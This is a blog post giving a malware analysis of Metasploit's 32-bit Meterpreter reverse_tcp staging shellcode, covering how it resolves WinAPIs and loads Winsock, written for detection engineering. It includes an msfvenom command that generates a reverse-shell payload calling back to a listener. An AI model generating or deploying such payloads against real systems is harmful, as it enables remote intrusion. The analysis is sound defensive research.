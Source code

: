 ```yaml
---
layout: post
title:  "The Inner Workings of Meterpreter"
date:   2023-09-17 00:00:00 +0000
categories: malware
---
```


This blog entry covers personal technical research on the meterpreter staging payload. Meterpreter, developed by Metasploit, is a C2 framework used by white and black hats alike.

To begin analysis, I generated a 32-bit Windows meterpreter shellcode with the command `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.128 LPORT=443 -f c`. The objective is to understand how the shellcode loads the necessary DLLs and executes the second stage payload.

Understanding the mechanisms of such shellcodes will prove useful in detection engineering.

<br>
### 1. The "main" Function
To give a high-level overview of the shellcode - there is a `main` function at offset 0x95, and a `load-execute` function at offset 0x06. `load-execute` is called from `main` multiple times.

Parameteres are pushed onto the stack from `main` and are passed into `load-execute` to be passed into WinAPIs.

![ida_main](/assets/post_assets/inner-workings-of-meterpreter/ida_main.png)


<br>
### 2. The "load-execute" Function
In ideal shellcode conditions, `load-execute` will be called 7 times that resolves and executes the following WinAPIs in order.

+ kernel32.LoadLibraryA
+ ws_32.WSAStartup
+ ws_32.WSASocketA
+ ws_32.connect
+ ws_32.recv
+ kernel32.VirtualAlloc
+ ws_32.recv (receives second stage payload)

<br>
I'll describe the library loading process in pseuodocode.

{% highlight python %}
for module in moduleList:
    for export in module.exports:
        if signature.matches(export):
            export()
{% endhighlight %}

<br>
The shellcode obtains the `InMemoryOrderModuleList` structure, which it iterates to find the required WinAPI through the `ExportDirectory` structure. This allows the extraction of WinAPI addresses without calling GetProcAddress.

![ida_load2](/assets/post_assets/inner-workings-of-meterpreter/ida_load2.png)

<br>
In the first `load-execute` call, the shellcode finds the address of `LoadLibraryA` and calls `LoadLibraryA("ws2_32")`, the Winsock dll, to enable networking capabilities. 

![loadlibrary_x32](/assets/post_assets/inner-workings-of-meterpreter/loadlibrary_x32.png)